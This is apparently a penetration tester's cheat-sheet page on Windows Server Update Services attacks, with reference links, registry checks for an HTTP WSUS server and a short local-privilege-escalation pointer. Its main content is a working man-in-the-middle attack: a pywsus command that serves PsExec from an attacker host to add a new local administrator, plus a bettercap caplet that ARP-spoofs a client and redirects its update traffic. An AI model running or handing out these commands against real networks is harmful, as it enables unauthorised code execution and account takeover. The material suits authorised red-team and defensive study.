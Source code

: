 ```yaml
---
description: Windows Server Update Services
---
```


# WSUS

* [https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus)




## WSUS HTTP (MitM)

* [https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf)
* [https://github.com/GoSecure/pywsus](https://github.com/GoSecure/pywsus)
* [https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/)
* [https://www.thehacker.recipes/systems-and-services/privilege-escalation/windows/wsus-attacks](https://www.thehacker.recipes/systems-and-services/privilege-escalation/windows/wsus-attacks)

Check:

```
PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer

HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
      UseWUServer    REG_DWORD    0x1

PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer

HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
      WUServer    REG_SZ    http://wsus.megacorp.local:8530
```

Exploit:

```
$ python3 pywsus.py --host $ATTACKER_IP --port 8530 --executable /home/snovvcrash/www/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser /add && net localgroup Administrators testuser /add"'
$ bettercap --iface $INTERFACE --caplet wsus.cap
```

{% code title="wsus.cap" %}
```bash
# Quick recon of the network
net.probe on

# Set the ARP spoofing
set arp.spoof.targets $CLIENT_IP
set arp.spoof.internal false
set arp.spoof.fullduplex false

# Re-route traffic aimed at the WSUS server
set any.proxy.iface $INTERFACE
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_SERVER_IP
set any.proxy.src_port 8530
set any.proxy.dst_address $ATTACKER_IP
set any.proxy.dst_port 8530

# Control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# Start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}




## WSUS Local Proxy (LPE)

* [https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)

